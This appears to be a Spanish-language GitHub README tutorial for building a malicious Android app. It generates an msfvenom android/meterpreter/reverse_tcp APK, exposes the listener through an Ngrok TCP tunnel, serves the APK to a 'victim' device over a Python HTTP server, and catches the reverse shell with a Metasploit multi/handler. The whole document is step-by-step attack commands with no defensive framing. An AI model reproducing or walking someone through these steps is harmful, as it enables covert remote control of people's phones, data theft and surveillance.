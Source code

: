 # Video: https://youtu.be/YaxFxesD0uE


# Previamente asegurate de:
1. Descarga Ngrok [Ngrok] (https://ngrok.com/download) (https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/NgrokDownload.png)
2. instala desde la terminal: $ sudo tar xvzf ~/Downloads/ngrok-v3-stable-linux-amd64.tgz -C /usr/local/bin (ojo con el nombre de la carpeta podria ser "Descargas" o "Downloads" segun el idioma de configuracion de tu kali)
3. Abre una cuenta gratuita en Ngrok y despues vincula tu token desde la pagina principal de Ngrok dentro de tu perfil (https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/Ngrokvinculacion.png)
4. Tener actualizado tu sistema operativo: $ sudo apt update && apt upgrade -y.
5. Descarga e instala Metasploit-Framework desde la terminal : $ sudo apt install metasploit-framework



# Tutorial
1. Abrimos una terminal como usuraio Root: $ sudo su
2. Arrancamos Metasploit-Framework: $ msfconsole (https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/msfconsole.png)
3. Desde una segunda terminal montamos un servidor tcp con Ngrok por el puerto 4646 por el cual estaremos en escucha: $ ngrok tcp 4646
4. En nuestra sesion con Metasploit creamos el payload con msfvenom para generar una conexion tcp con el siguiente comando : $  msfvenom -p android/meterpreter/reverse_tcp LHOST=(ojo porque el host nos lo proporcionara Ngrok en el apartado fowardign) al igual el LPORT=(pon atencion a laimagen proporcionada) -o msf.apk
5. Una vez hecho todo esto la aplicacion estara creada y lista para ser descargada desde nuestro equipo "victima".
6. Crearemos un servidor con python para que nuestra aplicacion sea descargada desde el equipo "atacante" al equipo "victima" : $ python3 -m http.server [puerto] (https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/ServidorPython.png)



# Aplicacion
Una vez que la apliacion fue creada eh instalada con exito en el equipo "victima" pasaremos a ponernos en escucha en una nueva ventana de metasploit 
1. Iniciamos Metasploit : $ msfconsole
2. Configuramos un Listener : $ use exploit/multi/handler
3. Seteamos el mismo payload de la app maliciosa : $ set payload/meterpreter/reverse_tcp
4. Seteamos el LHOST pero con todas las conexiones entrantes (all incoming conections) : $ set LHOST 0.0.0.0
5. Seteamos el puerto de escucha que habiamos configurado antes : $ set LPORT 4646
6. Arrancamos el payload : $ exploit




